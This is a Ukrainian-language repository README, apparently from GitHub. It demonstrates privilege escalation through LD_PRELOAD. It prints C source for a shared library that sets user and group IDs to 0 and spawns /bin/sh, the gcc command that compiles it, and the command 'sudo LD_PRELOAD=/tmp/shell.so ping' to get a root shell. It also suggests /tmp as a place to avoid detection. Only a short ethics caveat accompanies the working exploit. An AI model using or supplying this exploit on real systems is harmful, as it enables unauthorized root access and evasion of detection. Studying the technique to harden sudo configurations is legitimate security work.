 
<h2>Опис</h2>
<p>Цей репозиторій демонструє експлойт ескалації прав за допомогою змінної <code>LD_PRELOAD</code>. Створюючи спеціальну загальну бібліотеку, ми можемо впровадити її в програму та ескалювати привілеї, наприклад, для запуску довільних команд з правами root.</p>
<p><code>LD_PRELOAD</code> — це змінна середовища, яка використовується для попереднього завантаження загальних бібліотек у програму або скрипт перед її виконанням. Це дозволяє замінити функції за замовчуванням програми, що дає змогу маніпулювати її поведінкою.</p>

<h2>Пояснення</h2>
    <p>Ми створимо загальну бібліотеку, яку можна буде завантажити в програму за допомогою <code>LD_PRELOAD</code>, що дозволить нам ескалувати привілеї програми до прав root. Ключова ідея — використання змінної <code>LD_PRELOAD</code> для попереднього завантаження шкідливої бібліотеки перед виконанням цільової програми.</p>


<h3>Кроки реалізації</h3>
<ol>
<li><strong>Створення бібліотеки-експлойту:</strong> Спершу ми напишемо програму на C (файл <code>shell.c</code>), яку скомпілюємо в загальний об'єкт (файл <code>shell.so</code>). Ця бібліотека виконає ескалацію привілеїв, запустивши оболонку з правами root.</li>
</ol> 

<pre><code>#include &lt;stdio.h&gt;
     #include &lt;sys/types.h&gt;
#include &lt;stdlib.h&gt;

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}</code></pre>

    
<p>У цьому коді:</p>
    <ul>
        <li><code>setgid(0)</code> і <code>setuid(0)</code> встановлюють ID групи та користувача на <code>0</code>, що відповідає користувачу root.</li>
        <li><code>system("/bin/sh")</code> запускає оболонку з правами root.</li>
    </ul>

<ol start="2">
        <li><strong>Компиляція бібліотеки:</strong> Після написання коду потрібно скомпілювати його в загальний об'єкт за допомогою наступної команди:</li>
    </ol>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</code></pre>

<p>Це створить файл <code>shell.so</code>, який є загальним об'єктом, що може бути завантажений в інші програми за допомогою <code>LD_PRELOAD</code>.</p>

<ol start="3">
        <li><strong>Встановлення змінної LD_PRELOAD:</strong> Щоб скористатися вразливістю програми, потрібно встановити змінну середовища <code>LD_PRELOAD</code> на шлях до нашої шкідливої бібліотеки. Припустимо, що об'єкт зберігається в <code>/tmp</code> для зручності доступу.</li>
    </ol>
    <pre><code>sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

<p>Ця команда змушує програму <code>ping</code> завантажити нашу шкідливу бібліотеку перед її виконанням. В результаті, при запуску програми <code>ping</code>, вона отримає права root і відкриє оболонку.</p>

<h2>Важливі зауваження</h2>
    <ul>
        <li><strong>Місце зберігання об'єкта:</strong> Шкідлива бібліотека (<code>shell.so</code>) не обов'язково повинна знаходитися в <code>/tmp</code>, але це зручне місце для уникнення виявлення.</li>
        <li><strong>Цільова програма:</strong> У цьому прикладі ми використовуємо програму <code>ping</code> як ціль. Однак цей метод можна застосувати до будь-якої програми, яка динамічно завантажує бібліотеки.</li>
        <li><strong>Безпекові наслідки:</strong> Використання <code>LD_PRELOAD</code> таким чином може бути використано для ескалації прав, що є суттєвою загрозою для безпеки. Переконайтеся, що ви розумієте юридичні та етичні наслідки використання цього експлойту.</li>
    </ul>

h2>Приклад використання</h2>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    
<p>Це дозволить ескалувати привілеї і запустити оболонку з правами root.</p>

<h2>Висновок</h2>
<p>Цей приклад демонструє, як можна використовувати <code>LD_PRELOAD</code> для ескалації прав. Хоча цей метод є потужним, важливо розуміти його потенціал для шкідливого використання. Системи повинні бути налаштовані для мінімізації таких ризиків, забезпечуючи належну безпеку та захист від експлойтів типу <code>LD_PRELOAD</code>.</p>
